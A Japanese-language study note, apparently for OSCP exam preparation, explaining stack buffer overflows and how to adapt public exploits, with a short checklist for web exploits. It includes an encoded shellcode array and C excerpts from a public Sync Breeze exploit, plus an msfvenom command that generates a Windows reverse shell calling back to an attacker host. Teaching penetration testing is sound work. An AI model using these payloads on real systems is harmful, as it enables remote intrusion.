

- 関連ノート：
	- [コンピュータ・アセンブラ・バイナリの基礎知識](../Misc/コンピュータ・アセンブラ・バイナリの基礎知識.md)

---

# なぜエクスプロイトを修正するのか

- 公開エクスプロイトでも動作しないものがあるから
- 0からエクスプロイトを作成するのも、自分のニーズに完璧に当てはまるエクスプロイトを探すのも時間がかかるから
- 公開エクスプロイトを自分のニーズに合うように修正することが一番楽だから
- 言語（CやPython）を変えることで、使えるツールや環境が拡張され、エクスプロイトをより実用的にすることが可能だから

---

# バッファオーバーフロー

このノートの題材としてこの脆弱性を例に挙げる。

>[!NOTE]
>2022年1月以降のOSCP試験では、バッファオーバーフローのエクスプロイトは必ず出題されるわけではなくなった。

## バッファオーバーフローの概念

### 前提知識

- メモリバッファ（空き容量）を超えるデータを注入することで、予期せぬ処理(※)を引き起こす、メモリ破壊脆弱性の一種
	- (※)　DoS、RCEなど

### スタックオーバーフローの概念

- 以下の脆弱なCコードがあるとする
	- `buffer`：一時的な保存領域、加工・処理用の「作業スペース」として使われる
	- `strcpy(arg1, arg2)`：arg2をarg1にコピーする（※長さを検証しない危険な関数）
```c
int main(int argc, char *argv[]) {
    char buffer[64];
    strcpy(buffer, argv[1]);
    return 0;
}
```
$$List1$$

- このとき、攻撃者が、一定数以上のAという文字をbufferに渡すとBufferが溢れて、Return address of main（リターンアドレス）が任意の値に上書きされてしまう


$$スタックに特定数のAを格納した図$$

#### 補足：スタックの要素

| 要素                          | 説明                                                                                                                  |
| --------------------------- | ------------------------------------------------------------------------------------------------------------------- |
| StrCpy destination address  | List1でいう`buffer`。処理後のデータの格納先アドレスのこと。<br>（一般的にオペランドが入る。）                                                             |
| StrCpy source address       | List1でいう`argv[1]`。処理対象のデータの格納先のこと。<br>（一般的にオペランドが入る。）                                                               |
| Reserved char buffer memory | List1でいう`buffer[64]`。スタックに用意した空き容量。                                                                                 |
| **Return address** of main  | List1ではmain()に戻るアドレスのこと。<br>一般的には関数（List1では2~4行目）実行後、次に実行する処理の先頭アドレスを指す。<br>`return`で戻る。（main内の`return 0` ＝プログラム終了） |
| Main parameter 1, 2         | List1でいうと、1 = argc、2 = argv。大本の呼び出し元であるmain()の引数が入る。                                                                |

### 攻撃概要

1. オーバーフローを引き起こすための大きなバッファを作成する
2. 元々のリターンアドレスを上書きしてEIP（命令アドレスポインタ）を制御するため、適切なオフセットでバッファをパディングする（※）
	- （※）リターンアドレスの直前まで不要な文字列でアドレス空間を埋める
3. "必要に応じて"その前にNOPスレッドを追加する
	- NOP：No Operation（何もしない）
	- アドレスがNOPスレッドの範囲内を指せば、NOPは何も実行されずペイロードまで移動される(sled = ソリ)

 
 $$NOPスライドイメージ$$

4. JMP ESP（または別のレジスタ）など、ペイロードを実行するための命令のアドレスでリターンアドレスを上書きする
```c
bufsize = 64                  //← 1. バッファの用意
padding = 'A' * bufsize       //← 2. バッファを埋めるパディング 
nop_slide = '\x90' * 16       //← 3. （※必要に応じて）NOPスレッド 
JMP_ESP = 0x01234567          //← 4. この命令のアドレスでリターンアドレスを上書き
shellcode = msf_shellcode     //← 攻撃者が実行させたいコード。JMP ESP命令が指す

exploit = padding + nop_slide + JMP_ESP + shellcode
```


$$スタックベースバッファオーバーフローイメージ図(※シェルコードが最新pushされたもの)$$

### Bad charsとは

- `\x00`（=null）など、制御文字として解釈されてしまう恐れがある文字列のこと
- Bad charsがエクスプロイトコードに存在すると、ペイロードのシェルコードが正常に解釈されない可能性もあるため、bad charsはエクスプロイトに存在してはならない
	- 例えば`\x00`があると、終端文字として解釈され、ペイロードが途中で切り捨てられてしまう
- ==アプリケーションやOSなどの環境によって変わる==

---

## バッファオーバーフローエクスプロイトの修正

### 前提条件

- ターゲット環境に使えるエクスプロイトコードが存在する
- PythonよりもC言語を優先して確認
- コードを読み、理解してから使うこと（当たり前）
- IP、Portなどは適切な値に書き換えておくこと

### 前提知識：CとPythonの違い

- バッファオーバーフローは、エクスプロイトコードにCとPythonがよく使われる

#### 実行形式の違い

- Pythonはインタプリタを通して実行される
	- Pythonがインストールされていない環境では実行が制限される
- Cはコンパイルしてスタンドアロンの実行ファイルを作成する

- Pythonでも 🔗[PyInstaller](https://pyinstaller.org/en/stable/)を使えば、スタンドアロンの実行ファイルが作成できるが、以下の理由からおすすめされない
	- バイナリサイズが大きくなる
	- メモリ使用量が増える
	- デバッグが困難
	- 精密な動作やサイズ、アドレス配置、システムとの互換性が崩れる恐れがある

- →メモリ破壊のエクスプロイトコードなどの繊細な挙動が求められる場合は、==PythonをCに手動で書き換える==ことがオススメされる

#### 文字列の連結の違い

- Cでは、Pythonのような文字列の連結はできない↓（以下はPythonなら可）
```python
string1 = "This is"
string2 = " a test"
string3 = string1 + string2
print(string3)
```

- 代わりにCでは以下のように連結
```c
unsigned char shellcode[] = 
    "\x90\x90..."
    "\xdb\xda..."
    ...
	"\x32\xb1\xe4\xd8\x33\x90";
```

### ①ジャンプアドレスの特定・書き換え

#### ジャンプアドレスの前提事項

- ジャンプアドレスとは：書き換えの標的となるアドレスのことで、関数のリターンアドレス、例外ハンドラアドレス、関数ポインタ変数等がある
- エクスプロイトコードに記載されているジャンプアドレスが、ターゲット環境でも使われているとは限らない

- 一般的に==JMP ESP命令を主に使う==
	- ESPは常に変動するが、JMP ESP命令は常にESPのアドレスにジャンプしてくれるので、JMP ESP命令のアドレスが優先的に使われる（JMP ESP命令のアドレスが変動しなければ）

#### ジャンプアドレスの特定・書き換え手順

1. エクスプロイトコードにジャンプアドレスとして使用する特定のモジュール名が記載されているか？（`ret`や`jmp`で検索）
	- Yes：ステップ2へ
	- No：ステップ5へ
```example.c
unsigned char retn[] = "\xcb\x75\x52\x73"; //ret at msvbvm60.dll
```

2. ターゲット環境をローカルに再現構築できるか？（商用ソフトや再配布されていないソフト、または独自のカスタムがされているソフトの場合は、再現構築不可）
	- Yes：ステップ3へ
	- No：ステップ6へ

3. ターゲットにモジュールが存在するか？（[Module 14：Fixing Exploits](#ジャンプアドレス特定方法の一覧表)No.1）
	- Yes：当該ジャンプアドレスの使用可能（終了）
	- No：ステップ4へ

4. 同一の脆弱性・サービス/アプリケーションバージョンのエクスプロイトコードがあり、かつ、ジャンプアドレスの記載があるか？（[Module 14：Fixing Exploits](#ジャンプアドレス特定方法の一覧表)のNo.2）
	- Yes：ステップ２へ戻り、モジュールの有無を探す
	- No：ステップ5へ

5. セキュリティ機構がすべてFalseのモジュールはあるか？（[Module 14：Fixing Exploits](#ジャンプアドレス特定方法の一覧表)のNo.3）
	- Yes：当該モジュールのJMP ESPアドレスを使用（終了）
	- No：ステップ6へ

6. ターゲットに初期侵害後か？
	- Yes：ターゲットからローカルにASLR等の保護機能が無効な脆弱モジュールをコピーし、逆アセンブルしてJMP ESPのアドレスを探す（[Module 14：Fixing Exploits](#ジャンプアドレス特定方法の一覧表)のNo.4）
	- No：ステップ7へ

7. （モジュールの有無は確認できないが、）同一の脆弱性・サービス/アプリケーションバージョンのエクスプロイトコードに記載のジャンプアドレスを使用する（[Module 14：Fixing Exploits](#ジャンプアドレス特定方法の一覧表)のNo.2）、あるいは、公開エクスプロイトから、同一のOS・OSバージョンで異なる脆弱性のエクスプロイトを探し、ジャンプアドレスを探す（[Module 14：Fixing Exploits](#ジャンプアドレス特定方法の一覧表)のNo.5）（終了）

##### フロー図



$$ジャンプアドレス特定フロー図$$

#### ジャンプアドレス特定方法の一覧表

| No  | 手法                                          | 説明                                                                                                                                          | 信頼性/再現性 | 備考                                                          |
| --- | ------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- | ------- | ----------------------------------------------------------- |
| 1   | ローカルに再現した同一環境でモジュールの有無を探す                   | ・Immunity Debuggerなどでモジュールを探す<br>（[モジュールの探し方](../Tools/🧰Immunity%20debugger.md#モジュールの探し方)）                                                 | 非常に高い   | 💡OSCP試験ではImmunity debuggerがすでに用意されている                      |
| 2   | 同一の脆弱性・サービス/アプリケーションバージョンのエクスプロイトコードを参照     | ・異なるジャンプアドレスが利用可能かもしれない<br>・例えば、プログラミング言語が異なるエクスプロイトなど                                                                                      | 高い      | Exploit-DBでVerifiedが望ましい                                    |
| 3   | ローカルに再現した同一環境で、ASLR等のセキュリティ保護機構が無効なモジュールを探す | [[🧰Immunity debugger#セキュリティ機構が無効なモジュールの探し方とアドレス検索方法]]                                                                                      | 非常に高い   |                                                             |
| 4   | ターゲット上のDLLをローカルにコピーして分析                     | ・非特権ユーザーを侵害済で、PrivEscしたいときに使う手法<br>・DLLをローカルにコピーして `objdump` 等で逆アセンブル<br>                                                                   | 中       | ・ASLRが無効なモジュールを選定。<br>                                      |
| 5   | 既存の公開Exploitのジャンプアドレスを転用                    | ・プラットフォームのOSとバージョンが一致する、異なる脆弱性のエクスプロイトコードから転用<br>・例えば、Windows Server 2019上のJMP ESP命令のリターンアドレスが必要な場合、そのOSをターゲットとするさまざまな脆弱性を活用した公開エクスプロイトから探す | 低い      | ・OSとそのバージョンが一致する場合にのみ有効<br>・ターゲット独自の保護機能に大きく異なるため、あくまで参考程度。 |

>[!TIP]
>- JMP ESP命令は、ASLRか有効になっていても、比較的アドレスを発見しやすい
>- OS DLL（System DLL）は常にランダムなので、アドレス書き換えの対象としない
>- プログラミング言語の仕様に影響されず、バイナリとして扱わせるために、アドレスには`\x`とつけること
>- アドレスをリトルエンディアン or ビッグエンディアンで書くかに注意
>- Windowsの主流CPU（Intel/AMD x86/x64）はすべてリトルエンディアン

---

### ②シェルコードの書き換え

#### なぜシェルコードを書き換えるのか・どこを書き換えるのか

- シェルコードが具体的に何をしているのか、記載がない場合がある
- 以下のような場合、`//NOP SLIDE`と説明されている行以外のペイロードを目的のものに変更する必要がある（説明されていない行は目的のペイロードとは限らないため変更したほうがいい。）
```c
unsigned char shellcode[] = 
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
    "\xdb\xda\xbd\x92\xbc\xaf\xa7\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
    "\x52\x31\x68\x17\x83\xc0\x04\x03\xfa\xaf\x4d\x52\x06\x27\x13"
    "\x9d\xf6\xb8\x74\x17\x13\x89\xb4\x43\x50\xba\x04\x07\x34\x37"
    "\xee\x45\xac\xcc\x82\x41\xc3\x65\x28\xb4\xea\x76\x01\x84\x6d"
    "\xf5\x58\xd9\x4d\xc4\x92\x2c\x8c\x01\xce\xdd\xdc\xda\x84\x70"
    "\xf0\x6f\xd0\x48\x7b\x23\xf4\xc8\x98\xf4\xf7\xf9\x0f\x8e\xa1"
    "\xd9\xae\x43\xda\x53\xa8\x80\xe7\x2a\x43\x72\x93\xac\x85\x4a"
    "\x5c\x02\xe8\x62\xaf\x5a\x2d\x44\x50\x29\x47\xb6\xed\x2a\x9c"
    "\xc4\x29\xbe\x06\x6e\xb9\x18\xe2\x8e\x6e\xfe\x61\x9c\xdb\x74"
    "\x2d\x81\xda\x59\x46\xbd\x57\x5c\x88\x37\x23\x7b\x0c\x13\xf7"
    "\xe2\x15\xf9\x56\x1a\x45\xa2\x07\xbe\x0e\x4f\x53\xb3\x4d\x18"
    "\x90\xfe\x6d\xd8\xbe\x89\x1e\xea\x61\x22\x88\x46\xe9\xec\x4f"
    "\xa8\xc0\x49\xdf\x57\xeb\xa9\xf6\x93\xbf\xf9\x60\x35\xc0\x91"
    "\x70\xba\x15\x35\x20\x14\xc6\xf6\x90\xd4\xb6\x9e\xfa\xda\xe9"
    "\xbf\x05\x31\x82\x2a\xfc\xd2\x01\xba\x8a\xef\x32\xb9\x72\xe1"
    "\x9e\x34\x94\x6b\x0f\x11\x0f\x04\xb6\x38\xdb\xb5\x37\x97\xa6"
    "\xf6\xbc\x14\x57\xb8\x34\x50\x4b\x2d\xb5\x2f\x31\xf8\xca\x85"
    "\x5d\x66\x58\x42\x9d\xe1\x41\xdd\xca\xa6\xb4\x14\x9e\x5a\xee"
    "\x8e\xbc\xa6\x76\xe8\x04\x7d\x4b\xf7\x85\xf0\xf7\xd3\x95\xcc"
    "\xf8\x5f\xc1\x80\xae\x09\xbf\x66\x19\xf8\x69\x31\xf6\x52\xfd"
    "\xc4\x34\x65\x7b\xc9\x10\x13\x63\x78\xcd\x62\x9c\xb5\x99\x62"
    "\xe5\xab\x39\x8c\x3c\x68\x59\x6f\x94\x85\xf2\x36\x7d\x24\x9f"
    "\xc8\xa8\x6b\xa6\x4a\x58\x14\x5d\x52\x29\x11\x19\xd4\xc2\x6b"
    "\x32\xb1\xe4\xd8\x33\x90";
```
$$シェルコードの例$$

#### シェルコード変更手順

1. 公開エクスプロイトからBad charsを特定する（[[#Bad charsとは]]）
	- 同じアプリケーション・バージョンを対象とした公開エクスプロイトに記載されていることが多い
		- 例えば上記の「シェルコードの例」は🔗[Sync Breeze Enterprise 10.0.28 - Remote Buffer Overflow (PoC)](https://www.exploit-db.com/exploits/42341)だが、同じアプリケーション・バージョンを対象とした[Sync Breeze Enterprise 10.0.28 - Remote Buffer Overflow](https://www.exploit-db.com/exploits/42928)にはbad charsのリストがある(`# bad char = 00 0A 0D 25 26 2B 3D`)
	- ==アプリケーションや実行環境毎にBad charsは異なる場合がある==ので、検証が必要
>[!NOTE]
>OSCPの試験範囲にはエクスプロイトの開発は含まれていないので、他のエクスプロイトから引用する方法を優先する。

2. msfvenomによるリバースシェル獲得コードの生成：[☠️Msfvenom](../Tools/☠️Msfvenom.md)
	- １で特定したBad charsを`-b`に指定
```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=[AttackerIP] LPORT=[Port] EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

---

### ③微調整

- これまでの手順で修正したエクスプロイトがうまく動作するかを検証し、うまくいかないのであれば調整する
- ==Exploit DBでVerifiedのエクスプロイトは、エラーやミスが0という意味ではない==
	- 微調整してエクスプロイトに成功したことを検証した、という意味
- 例えば、メモリ領域のバイト数がズレていることがある

#### 動作検証

1. ターゲットを再現した環境で、Immunity debuggerを開く：[🧰Immunity debugger](../Tools/🧰Immunity%20debugger.md)
2. [①ジャンプアドレスの特定・書き換え](#①ジャンプアドレスの特定・書き換え)で使用したアドレスを、Ctrl + Gで表示される検索ダイアログボックスに入力（CPUに関わらずビッグエンディアン）


$$Enter　expression　to　follow$$

3. ジャンプアドレスの命令がヒットするので、f2（ファンクションキー）でブレークポイントを設定する。設定するとアドレスが水色にハイライトされる。

$$ブレークポイント設定後の状態$$

4. 攻撃者のLinux環境で、これまでで修正したエクスプロイトコードを、[クロスコンパイル環境の準備・実行](../Misc/コンパイル・ビルド.md#クロスコンパイル環境の準備・実行)でコンパイル・実行し、実行自体は可能なことを確認


$$攻撃者のマシンでエクスプロイトを実行$$

5. ターゲットを再現した環境上で開いているImmunity debuggerにて、▶️（再生）ボタンを押す
6. EIPの値が意図されたジャンプアドレスに書き変わっていないことを確認する
	- 意図したアドレス：　　   10 09 0c 83
	- 実際のEIPのアドレス：90 10 09 0c
	- → 1バイト前から書き換えていることがわかる


#### 修正・再実行

- エラーや意図しない動作などさまざまな要因でうまくいかないことがある
- ここでは、意図したジャンプ先アドレスでEIPを制御できていない場合を想定する

- 1バイト前から書き換えていた
- 結論：1バイト後から書き換えるように修正
修正前：
```c
int initial_buffer_size = 780;
```
修正後：
```c
int initial_buffer_size = 781;
```

##### 問題の原因とその背景

- 原因：開発者のうっかりミス

- なぜ`memset(padding + size - 1, 0x00, 1)`とするのか？
	- C言語の文字列は、最初に `\x00`（NULLバイト）が出てくるまでが文字列
	- `malloc(780)`で確保された領域の最後のバイトを`\x00`にして、NULL終端された「C言語の文字列」として扱えるようにするため
	- ただし、このせいでパディングが1バイト短くなってしまい、EIPがズレる原因にもなる（だから+1する必要がある）

以下、🔗[42341 - Exploit-DB](https://www.exploit-db.com/exploits/42341)のエクスプロイトの抜粋
```c
# 780バイト分padding（A）し、780バイト目（padding[779]）をNULLバイトにしている。
int initial_buffer_size = 780;
char *padding = malloc(initial_buffer_size);
memset(padding, 0x41, initial_buffer_size);
memset(padding + initial_buffer_size - 1, 0x00, 1);

...

char *buffer = malloc(buffer_length);
memset(buffer, 0x00, buffer_length);
strcpy(buffer, request_one);
strcat(buffer, content_length_string);
strcat(buffer, request_two);
strcat(buffer, padding);
strcat(buffer, retn);
strcat(buffer, shellcode);
strcat(buffer, request_three);
```

- 参考：[C言語](../Misc/C言語.md)

---
---

# Web Exploitの修正

## Webエクスプロイトの修正時に考慮すること

- HTTP または HTTPS 接続か？
	- 通信方式の違いで挙動が変わることがある。
	- ターゲットに合わせる

- 特定のパスやルートにアクセスしているか？  
	-  例: `/admin`, `/login`, `/api/v1/data` など
	- 記載されているパスを変更する必要があるかも

- 認証前の脆弱性を狙っているか？  
	-  ログインなしで攻撃可能かどうか

- 認証が必要な場合、どうやって認証しているか？  
	 - Cookie, トークン, Basic認証などの利用有無

- GET/POSTなどのHTTPメソッドをどう使って脆弱性を突いているか？  
	-  パラメータの送信方法や構造をチェック

- アプリの初期設定（例: デフォルトのWebパス）に依存していないか？  
	- ユーザーが設定を変更していた場合、動かない可能性がある
	- 設定の内容を列挙する

- 自己署名証明書などで通信に支障が出ないか？  
	 - HTTPSの検証に失敗すると動作しない場合あり
	- 公式ドキュメントに迂回方法が記載されているかも

-  セキュリティ対策はされていないか？
	- 公開されているExploitは、多くの場合以下を考慮していない:
	- `.htaccess` によるアクセス制限
    - WAF（Web Application Firewall）によるブロック

- 公式ドキュメントを読む
	- 脆弱なアプリケーション
	- 💡エクスプロイトに使用しているライブラリ（例：pythonのrequestライブラリ）